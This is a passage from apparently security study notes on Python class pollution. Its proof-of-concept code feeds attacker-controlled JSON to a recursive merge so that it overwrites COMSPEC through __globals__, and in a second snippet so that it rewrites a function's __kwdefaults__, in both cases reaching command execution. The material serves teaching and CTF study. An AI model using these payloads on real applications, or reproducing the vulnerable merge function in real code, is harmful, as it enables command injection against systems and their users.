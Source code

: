 ```python
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

# Overwrite env var "COMSPEC" to execute a calc
USER_INPUT = json.loads('{"__init__":{"__globals__":{"subprocess":{"os":{"environ":{"COMSPEC":"cmd /c calc"}}}}}}') # attacker-controlled value

merge(USER_INPUT, Employee())

subprocess.Popen('whoami', shell=True) # Calc.exe will pop up
```

### Polluting `__kwdefaults__`

**`__kwdefaults__`** is a special attribute of all functions, based on Python [documentation](https://docs.python.org/3/library/inspect.html), it is a “mapping of any default values for **keyword-only** parameters”. Polluting this attribute allows us to control the default values of keyword-only parameters of a function, these are the function’s parameters that come after * or *args.

```python
from os import system
import json

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class Employee:
    def __init__(self):
        pass

def execute(*, command='whoami'):
    print(f'Executing {command}')
    system(command)

print(execute.__kwdefaults__) #> {'command': 'whoami'}
execute() #> Executing whoami
#> user

emp_info = json.loads('{"__class__":{"__init__":{"__globals__":{"execute":{"__kwdefaults__":{"command":"echo Polluted"}}}}}}') # attacker-controlled value
merge(emp_info, Employee())

print(execute.__kwdefaults__) #> {'command': 'echo Polluted'}
execute() #> Executing echo Polluted
#> Polluted
```


[^class]: [`__class__`](../Dev,%20scripting%20&%20OS/Python.md#`__class__`)
[^attributes]: [`__class__` attributes](../Dev,%20scripting%20&%20OS/Python.md#`__class__`%20attributes)
[^IDEK]: https://ctftime.org/writeup/36082